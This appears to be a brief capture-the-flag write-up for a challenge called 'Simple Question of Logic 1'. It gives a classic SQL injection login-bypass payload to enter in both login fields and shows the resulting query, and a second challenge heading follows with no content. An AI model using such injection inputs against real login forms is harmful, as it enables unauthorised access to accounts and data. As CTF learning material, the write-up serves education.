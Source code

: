 ## Simple Question of Logic 1
- use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))
```sh
# classic login bypass

x' or '1'='1
x' or '1'='1
```
- as if to say
```erlang
$query = "select * from users where username = 'x' OR '1'='1' and password = 'x' OR '1'='1'";
```
## Simple Question of Logic 2
